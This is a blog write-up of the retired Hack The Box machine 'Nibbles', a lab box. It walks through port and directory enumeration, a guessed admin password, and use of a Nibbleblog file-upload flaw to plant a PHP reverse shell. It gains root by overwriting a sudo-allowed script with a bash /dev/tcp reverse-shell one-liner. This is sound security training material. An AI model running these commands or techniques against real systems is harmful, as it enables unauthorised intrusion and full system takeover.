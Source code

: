 ```yaml
---
title: HTB - Nibbles writeup
date: 2025-08-21 12:00:00 +0000
categories:
  - CTF
  - HTB
tags:
  - CTF
  - HTB
  - easy
  - enumeration
  - privilege-escalation
---
```


---

![Nibbles Box](/assets/images/nibbles/NIBBLES.png)

**OS :** Linux  
**Difficulty :** Easy  
**Machine IP :** 10.10.10.75

Nibbles is an easy retired box that showcases common enumeration tactics, basic web application exploitation, and a file-related misconfiguration for privilege escalation.

---

## Enumeration

First, we need to scan our target using `nmap` to see the open ports and services running on the target.  
![Nmap Scan](/assets/images/nibbles/nmap_scan.png)

We get:

- SSH open on port 22
    
- HTTP open on port 80
    

Let’s check port 80, but first let’s add the IP address to our `/etc/hosts`:  
![Domain Name](/assets/images/nibbles/domain_name.png)

Now that we’ve added the host, let’s check out the website:  
![Web View](/assets/images/nibbles/web_view.png)

We get nothing here… but after checking the source code, I found a hidden web directory: `/nibbleblog/`.  
![Source Page](/assets/images/nibbles/source_page.png)

Accessing this directory shows us a blog:  
![Blog Page](/assets/images/nibbles/blog_page.png)

Next, I did some directory enumeration to see if there were any hidden files or directories. Using the `common.txt` wordlist, I got:  
![Dir Enum](/assets/images/nibbles/dir_enum.png)   
![Dir Enum Result](/assets/images/nibbles/dir_enum_result.png)

There are some interesting results. The first thing I checked was the `README` file:  
![Readme](/assets/images/nibbles/readme.png)

It shows `Nibbleblog v4.0.3`.

Searching online, I found that it’s a CMS vulnerable to **Arbitrary File Upload**. To exploit this, we need credentials for the admin page.

After some enumeration, I discovered the username `admin`.  
![Username](/assets/images/nibbles/username.png)

I couldn’t find the password at first, but after a few guesses, I ended up with:

```
admin:nibbles
```

Now with credentials, I went to GitHub to check how to get RCE. From the code, I learned I need to upload a PHP reverse shell in `/content/private/plugins/my_image/`.  
![GitHub](/assets/images/nibbles/github.png)

So I went to the admin dashboard → Plugins → My Image → uploaded my reverse shell.  
![Reverse Shell Upload](/assets/images/nibbles/reverse_shell.png)  
![Uploaded Image](/assets/images/nibbles/uploaded_image.png)

---

## Getting a Shell

Then I set up a Netcat listener:  
![Get Shell](/assets/images/nibbles/get_shell.png)

Got the shell! I upgraded it with:

```bash
script /dev/null -c bash
```

![Shell Upgrade](/assets/images/nibbles/shell_upgrade.png)

We are now the user `nibbler`. In the home directory, I grabbed the first flag:  
![First Flag](/assets/images/nibbles/first_flag.png)

---

## Privilege Escalation

I ran:

```bash
sudo -l
```

![sudo](/assets/images/nibbles/sudo-l.png)

It showed that we can run the `monitor.sh` script as root. After unzipping the `personal.zip` file, I got the script.  
![Unzip The File](/assets/images/nibbles/'the zip fie.png')

Checking the file, I noticed I had write permission. So I overwrote it with a reverse shell:

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.29/6666 0>&1'" > monitor.sh
```

![overwrote](/assets/images/nibbles/overrideFile.png)

Then I started another Netcat listener:  
![root reverse shell](/assets/images/nibbles/root_reverse_shell.png)

Finally, I ran the script as root:

```bash
sudo ./monitor.sh
```

![run the reverse shell](/assets/images/nibbles/'run the reverse shell.png')

And we got a **root shell**!  
![get the root shell](/assets/images/nibbles/get_root_shell.png)

Grabbed the root flag:  
![root flag](/assets/images/nibbles/root_flag.png)

---

and we are DONE  :)
